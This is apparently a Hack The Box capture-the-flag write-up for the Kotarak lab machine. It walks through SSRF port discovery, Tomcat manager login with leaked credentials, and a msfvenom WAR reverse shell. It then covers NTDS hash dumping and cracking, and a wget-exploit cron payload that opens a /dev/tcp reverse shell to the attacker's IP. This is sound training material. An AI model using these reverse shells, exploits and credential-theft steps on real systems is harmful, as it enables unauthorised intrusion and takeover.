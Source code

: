 # HTB - Kotarak

#### Ip: 10.10.10.55
#### Name: Kotarak
#### Difficulty: Hard

----------------------------------------------------------------------

![Kotarak.png](../assets/kotarak_assets/Kotarak.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.55 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 10:20 CDT
Nmap scan report for 10.10.10.55
Host is up (0.073s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2d7ca0eb7cb0a51f72e75ea02241774 (RSA)
|   256 e8f1c0d37d9b4373ad373bcbe1648ee9 (ECDSA)
|_  256 6de926ad86022d68e1ebad66a06017b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5 - Error report
| http-methods: 
|_  Potentially risky methods: PUT DELETE
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title:         Kotarak Web Hosting        
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.93 seconds
```

The Kotarak Web Hosting on port 60000 seems linteresting, lets check that out first:

![site.png](../assets/kotarak_assets/site.png)

Trying to enter www.hackthebox.com in the search box forwards us to: http://10.10.10.55:60000/url.php?path=www.hackthebox.com%2F

But if we search for 10.10.10.55:22 we get the message `SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch. ` So it does seem that the search feature is able to query ports on its localhost address. Lets see if there are any other ports open internally.

We can do this by fuzzing the site with a list of ports that may be open on localhost. I'll use wfuzz for this:

![fuzz.png](../assets/kotarak_assets/fuzz.png)

Nice, looks like we have a few more ports to investigate now. After poking around a bit I found some interesting materials at http://10.10.10.55:60000/url.php?path=127.0.0.1%3A888

![888.png](../assets/kotarak_assets/888.png)

Now if we input http://127.0.0.1:888/?doc=backup into the search on port 60000 and inspect the page source we find credentials for the Tomcat service running on port 8080:

![creds.png](../assets/kotarak_assets/creds.png)

Based on past experience with Tomcat I know the login can be found at 10.10.10.55:8080/manager/html

![login.png](../assets/kotarak_assets/login.png)

These credentials work and we can now authenticate to the site:

![tomcat.png](../assets/kotarak_assets/tomcat.png)

### Exploitation

From here lets generate a .war reverse shell file to upload to the server:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.48 LPORT=443 -f war > shell.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
```

We can upload the file and verify it loaded correctly:

![file.png](../assets/kotarak_assets/file.png)

Then with a NetCat listener listening, we can simply click on our shell file and catch the reverse shell back in NetCat:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.55] 35576
whoami
tomcat
hostname
kotarak-dmz
python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@kotarak-dmz:/$
```

Trying to grab the user.txt flag from user atanas' home directory, we get a permission denied:

```text
tomcat@kotarak-dmz:/home$ ls
atanas	tomcat
tomcat@kotarak-dmz:/home$ cd atanas
tomcat@kotarak-dmz:/home/atanas$ ls
user.txt
tomcat@kotarak-dmz:/home/atanas$ cat user.txt
cat: user.txt: Permission denied
```

Looking around more we find an interesting directory called `pentest_data` which contain .dit and registry files:

```text
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -la
total 28312
drwxr-xr-x 2 tomcat tomcat     4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat     4096 Jul 21  2017 ..
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Lets copy these back to our attacking machine.

First we'll set up a Python server on the target and then use wget on our attacking machine to retrieve the files:

![wget.png](../assets/kotarak_assets/wget.png)

Now lets use impacket-secretsdump to extract some hashes

![dump.png](../assets/kotarak_assets/dump.png)

Nice, we've found a few. Lets grab the Administrator and the atanas hash and crack them in CrackStation:

![crack.png](../assets/kotarak_assets/crack.png)

Cool, that worked. Lets try to `su atanas` on the target:

```text
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
su: Authentication failure
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
atanas@kotarak-dmz:~$ whoami
atanas
```
Interestingly, the atanas password didn't work here, but the admin password did.

We can now grab the user.txt flag:

![user_flag.png](../assets/kotarak_assets/user_flag.png)

### Privilege Escalation

Looking around the machine and not seeing much, I noticed we have read access to some files in the root directory. 

```text
atanas@kotarak-dmz:/root$ ls
app.log  flag.txt
atanas@kotarak-dmz:/root$ cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
atanas@kotarak-dmz:/root$ cat flag.txt
Getting closer! But what you are looking for can't be found here.
```

Interesting, it appears IP address 10.0.3.133 is using wget to try and access a file every 2 minutes. This must be running as a cronjob.  

Looking at exploits for this version of wget we find: https://www.exploit-db.com/exploits/40064

First we'll need to upadte the wget-exploit.py portion of the script to:

```text
HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.48/8888 0>&1' \n"
```

Next we'll want to get another working shell on the target (I just ran the .war file again with another listener set up).

Now lets start an ftpserver on the target:

```text
atanas@kotarak-dmz:/tmp$ authbind python -m pyftpdlib -p21 -w
```

From here lets set up a python HTTP server on our attacking machine and use wget to grab the exploit onto the target machine, and then use authbind to run it:

```text
atanas@kotarak-dmz:/tmp/...$ wget 10.10.14.48/wget-exploit.py
--2023-09-05 14:58:28--  http://10.10.14.48/wget-exploit.py
Connecting to 10.10.14.48:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2906 (2.8K) [text/x-python]
Saving to: ‘wget-exploit.py’

wget-exploit.py       0%[                    ]       0  --.-Kwget-exploit.py     100%[===================>]   2.84K  --.-KB/s    in 0s      

2023-09-05 14:58:29 (269 MB/s) - ‘wget-exploit.py’ saved [2906/2906]

atanas@kotarak-dmz:/tmp/...$ authbind python wget-exploit.py
```

With a listener set up on port 8888, we will eventually catch a shell back as the root user, and we can grab the final flag:

![root_flag.png](../assets/kotarak_assets/root_flag.png)

Thanks for following along!

-Ryan
